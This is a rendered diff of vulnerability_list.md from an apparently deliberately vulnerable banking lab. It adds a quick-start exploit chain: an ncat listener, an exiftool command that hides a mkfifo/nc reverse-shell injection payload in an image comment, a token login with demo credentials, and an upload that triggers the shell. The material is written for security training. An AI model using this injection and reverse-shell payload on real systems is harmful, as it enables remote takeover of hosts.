

Before and after one commit to dodiventuraz/vuln_geeks_bank, a Markdown page: vulnerability_list.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/vulnerability_list.md
+++ b/vulnerability_list.md
@@ -280,6 +280,29 @@ installed, and a BusyBox **`nc`** available.
 > ⚠️ For use **only** against your own instance of this deliberately-vulnerable lab. Never run
 > these payloads against systems you do not own or are not explicitly authorised to test.
 
+### Quick start — running against the local Docker lab
+If you started the lab with `docker compose up --build` (see `README.md`), the target is
+`http://localhost:3000` and — from **inside** the container — your host machine is reachable as
+**`host.docker.internal`**. So use `TARGET = localhost` and `ATTACKER_IP = host.docker.internal`:
+
+```bash
+# 1) Listener on your host (ncat from Nmap, or nc in WSL/Git Bash)
+ncat -lvnp 4444
+
+# 2) Craft the malicious image (payload calls back to the host)
+exiftool -Comment='"; rm -f /tmp/f; mkfifo /tmp/f; (cat /tmp/f | /bin/sh -i 2>&1 | nc host.docker.internal 4444 > /tmp/f) & echo "' avatar.jpg
+
+# 3) Get a token and upload (front-end filter is client-side only)
+TOKEN=$(curl -s http://localhost:3000/api/auth/login -H 'Content-Type: application/json' \
+  -d '{"email":"rangga@geekswarrior.id","password":"hunter2"}' | jq -r .token)
+curl -s -X POST http://localhost:3000/api/upload -H "Authorization: Bearer $TOKEN" \
+  -F 'avatar=@avatar.jpg;type=image/jpeg'
+
+# 4) Catch the interactive shell in the listener terminal.
+```
+
+The generic, step-by-step reference (with alternative payloads and token-forging) follows below.
+
 ### How the injection breaks out
 The backend builds:
 ```
````
Also changed, not shown: README.md (+28 -45 lines).
